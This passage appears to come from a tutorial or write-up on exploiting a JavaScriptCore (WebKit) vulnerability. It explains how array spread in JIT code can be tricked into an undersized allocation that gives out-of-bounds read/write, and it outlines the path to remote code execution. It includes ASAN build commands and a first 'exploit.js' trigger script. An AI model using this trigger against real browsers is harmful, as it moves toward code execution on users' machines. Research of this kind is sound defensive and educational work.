 ![overflow-example](./img/test.png)

We can use this vulnerability to trick the JavaScript engine into thinking we've allocated an array with size 0x20000001 but actually only have allocated enough space for 1 JSValue (8 bytes). This will result in an out-of-bounds (OOB) read and write (R/W) primitive that can then be leveraged to achieve arbitrary R/W and eventually remote code execution (RCE).

- [x] Identify the vulnerability

  ## Triggering the Vulnerability with ASAN

In order to confirm that we have an OOB read we will try to trigger this vulnerability on an [address sanitizer](https://en.wikipedia.org/wiki/AddressSanitizer) (ASAN) build of JSC.

To do this from the WebKit directory we can run the commands:

```bash
Tools/Scripts/set-webkit-configuration --asan
Tools/Scripts/build-jsc --jsc--only --debug
```

This will build a debug build of JSC with ASAN enabled allow us to verify whether of not we have successfully triggered the vulnerability.

Here is the first iteration of exploit.js

```javascript
function jitMe(array){
  return [...array]
}

let dummy = [1.1]
for(let i = 0; i < 200; i++){
  jitMe(dummy);
}

let a = []

let len = 0x20000001                                                                     

for(let i = 0; i < len; i++){
  a[i] = 1.1 
}

jitMe(a)

```

When running this I get the following error:

Program terminated with signal SIGKILL, Killed.
The program no longer exists.
